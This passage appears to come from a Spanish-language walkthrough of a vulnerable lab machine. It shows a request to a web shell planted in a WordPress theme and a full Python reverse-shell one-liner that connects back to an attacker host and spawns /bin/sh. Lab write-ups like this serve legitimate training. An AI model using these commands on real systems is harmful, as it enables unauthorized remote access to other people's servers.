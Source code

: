 <img src="https://github.com/El-Palomo/EVM1/blob/main/evm7.jpg" width=80% />

```
http://192.168.56.103/wordpress/wp-content/themes/hestia/cmd.php?cmd=whoami
```

<img src="https://github.com/El-Palomo/EVM1/blob/main/evm8.jpg" width=80% />

- Ahora obtener SHELL reversa.

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.104",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
